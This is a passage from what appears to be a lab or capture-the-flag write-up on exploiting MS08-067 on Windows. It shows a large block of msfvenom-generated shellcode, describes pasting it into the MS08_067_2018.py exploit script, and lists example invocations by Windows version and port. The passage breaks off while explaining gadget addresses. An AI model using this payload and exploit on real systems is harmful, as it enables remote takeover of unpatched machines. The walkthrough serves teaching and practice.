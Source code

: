 ```
shellcode += "\x19\xfb\x9a\x43\xc0\xa7\x21\x9a\x86\x20\xd8\xe0"
shellcode += "\x9d\x1c\xe0\xee\xa3\x54\x06\xf4\xf3\xd7\xa8\xe4"
shellcode += "\xb2\x6a\x65\xc5\x93\x6c\x48\x3a\xc0\xfc\x21\x9a"
shellcode += "\x82\x20\xe0\xf4\x19\xe7\xbb\xb0\x71\xe3\xab\x19"
shellcode += "\xc3\x20\xf3\xe8\x93\x78\x21\x81\x8a\x48\x90\x81"
shellcode += "\x19\x9f\x21\xc9\x44\x9a\x55\x64\x53\x64\xa7\xc9"
shellcode += "\x55\x93\x4a\xbd\x64\xa8\xd7\x30\xa9\xd6\x8e\xbd"
shellcode += "\x76\xf3\x21\x90\xb6\xaa\x79\xae\x19\xa7\xe1\x43"
shellcode += "\xca\xb7\xab\x1b\x19\xaf\x21\xc9\x42\x22\xee\xec"
shellcode += "\xb6\xf0\xf1\xa9\xcb\xf1\xfb\x37\x72\xf4\xf5\x92"
shellcode += "\x19\xb9\x41\x45\xcf\xc3\x99\xfa\x92\xab\xc2\xbf"
shellcode += "\xe1\x99\xf5\x9c\xfa\xe7\xdd\xee\x95\x54\x7f\x70"
shellcode += "\x02\xaa\xaa\xc8\xbb\x6f\xfe\x98\xfa\x82\x2a\xa3"
shellcode += "\x92\x54\x7f\x98\xc2\xfb\xfa\x88\xc2\xeb\xfa\xa0"
shellcode += "\x78\xa4\x75\x28\x6d\x7e\x3d\xa2\x97\xc3\xa0\xc2"
shellcode += "\x9c\xa5\xc2\xca\x92\xaa\x11\x41\x74\xc1\xba\x9e"
shellcode += "\xc5\xc3\x33\x6d\xe6\xca\x55\x1d\x17\x6b\xde\xc4"
shellcode += "\x6d\xe5\xa2\xbd\x7e\xc3\x5a\x7d\x30\xfd\x55\x1d"
shellcode += "\xfa\xc8\xc7\xac\x92\x22\x49\x9f\xc5\xfc\x9b\x3e"
shellcode += "\xf8\xb9\xf3\x9e\x70\x56\xcc\x0f\xd6\x8f\x96\xc9"
shellcode += "\x93\x26\xee\xec\x82\x6d\xaa\x8c\xc6\xfb\xfc\x9e"
shellcode += "\xc4\xed\xfc\x86\xc4\xfd\xf9\x9e\xfa\xd2\x66\xf7"
shellcode += "\x14\x54\x7f\x41\x72\xe5\xfc\x8e\x6d\x9b\xc2\xc0"
shellcode += "\x15\xb6\xca\x37\x47\x10\x4a\xd5\xb8\xa1\xc2\x6e"
shellcode += "\x07\x16\x37\x37\x47\x97\xac\xb4\x98\x2b\x51\x28"
shellcode += "\xe7\xae\x11\x8f\x81\xd9\xc5\xa2\x92\xf8\x55\x1d"

```

I’ll take this shellcode into the script, and paste it in replacing the default. I like to also paste in a comment above it with the `msfvenom` command string I ran to generate it so that when I come back to it someday, I’ll know what it’s doing.

#### Guess Version

The exploit requires that I know the version of Windows and the Language pack:

```

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

```

The exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell. For different version of Windows, the addresses of those gadgets will be different. For example, from the source:
